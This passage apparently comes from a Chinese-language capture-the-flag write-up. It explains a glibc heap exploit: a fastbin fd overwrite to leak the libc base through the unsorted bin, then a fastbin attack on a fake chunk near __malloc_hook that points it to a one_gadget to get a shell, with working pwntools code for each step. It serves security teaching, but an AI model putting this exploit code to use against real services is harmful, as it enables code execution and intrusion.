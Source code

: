 其中chunk_0、chunk_3、chunk_5大小随意。chunk_1和chunk_2保证free后进入fastbin。chunk_4保证free后进入unsorted bin。

free掉chunk_2、chunk_1，这时两个chunk进入了fastbin。

此时chunk_1的fd指向chunk_2，因为堆的始终是4KB对齐的，所以chunk_4的起始地址的第一个字节必然是0x80。用chunk_0更改chunk_1的fd，使其指向chunk_4。为了能够申请成功，我们需要确保chunk_4的size与当前fastbin 的大小一致，所以我们得修改它的大小。

申请空间从fastbin申请出来，这是chunk_2与chunk_4指向同一个地址。

将chunk_4的大小改回来，free进unsorted bin。dump出chunk_2的内容，前8 byte就是我们想要的地址了，减去偏移就是libc_base。

```python
alloc(0x10) # 0
alloc(0x10) # 1
alloc(0x10) # 2
alloc(0x10) # 3
alloc(0x80) # 4
alloc(0x10) # 5

free(2)
free(1)

fill(0, 'a'*0x10 + p64(0) + p64(0x21) + p8(0x80))
fill(3, 'b'*0x10 + p64(0) + p64(0x21))

alloc(0x10) # 1
alloc(0x10) # 2

fill(3, 'b'*0x10 + p64(0) + p64(0x91))
free(4)
libc_base = u64(dump(2)[:8]) - 0x3c4b78
log.info('libc_base = ' + hex(libc_base))
pause()
```

### exploit

在执行malloc、free等时，开始就会检测hook函数，如果不为空就会跳过去执行。

现在的目标是__malloc_hook，我们可以用fastbin attack将在__malloc_hook所在的空间分配出来，修改__malloc_hook的值，通过__malloc_hook来getshell。

修改的时候需要注意一下fastbin size检测，如果分配出来的chunk的size不属于这个fastbin，那么会出现memory corruption (fast) 的错误。

不过fastbin对于chunk没有对齐检测，用gdb调试看了一下，在目标地址前面27 byte处有一个占8 byte的0x7f，也就是可以从这开出0x60大小的空间，目标地址是包含在内的。

这里我就接leak libc中的第一种方法写了。第二种方法接的利用原理一样，就不写了。

现根据libc_base获得__malloc_hook地址。

free掉chunk_1。通过chunk_0修改chunk_1的fd指向前面选的地址。

将fake chunk alloc出来。这时chunk_2指向fake chunk。用fill更改__malloc_hook的值指向一个gadget。alloc一下触发利用。

关于gadget的寻找这里介绍一个工具——[onegadget](https://github.com/david942j/one_gadget)。

```python
malloc_hook = libc.symbols['__malloc_hook'] + libc_base
log.info("malloc_hook = " + hex(malloc_hook))

free(1)
fill(0, 'd'*0x10 + p64(0) + p64(0x71) + p64(malloc_hook-27-0x8) + p64(0))

alloc(0x60) # 1
alloc(0x60) # 2
fill(2, 'a'*3 + p64(0) + p64(0) +p64(libc_base + 0x4526a))
alloc(0x10)
```
